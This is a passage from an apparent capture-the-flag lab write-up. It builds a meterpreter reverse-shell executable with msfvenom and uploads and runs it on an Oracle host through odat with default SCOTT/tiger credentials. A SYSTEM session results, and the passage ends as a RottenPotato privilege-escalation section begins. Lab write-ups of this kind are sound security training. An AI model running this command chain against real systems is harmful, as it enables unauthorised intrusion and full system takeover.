 

    root@kali# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=8084 -f exe -o shell.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 510 bytes
    Final size of exe file: 7168 bytes
    Saved as: shell.exe



Now upload it:



    root@kali# odat utlfile -s 10.10.10.82 -U SCOTT -P tiger -d XE --sysdba --putFile \\temp shell.exe shell.exe

    [1] (10.10.10.82:1521): Put the shell.exe local file in the \temp folder like shell.exe on the 10.10.10.82 server
    [+] The shell.exe file was created on the \temp directory on the 10.10.10.82 server like the shell.exe file



And run it:



    root@kali# odat externaltable -s 10.10.10.82 -U SCOTT -P tiger -d XE --sysdba --exec \\temp shell.exe

    [1] (10.10.10.82:1521): Execute the shell.exe command stored in the \temp path



This gives us a callback, which is a system shell:



    msf exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.14:8084
    [*] Sending stage (206403 bytes) to 10.10.10.82
    [*] Meterpreter session 1 opened (10.10.14.14:8084 -> 10.10.10.82:49168) at 2018-08-03 07:22:00 -0400

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM



### RottenPotato Privesc

If we check `whoami /priv`, we'll see SeImpersonatePrivilege:



    PS C:\windows\system32\inetsrv>whoami /priv

    PRIVILEGES INFORMATION
    ----------------------
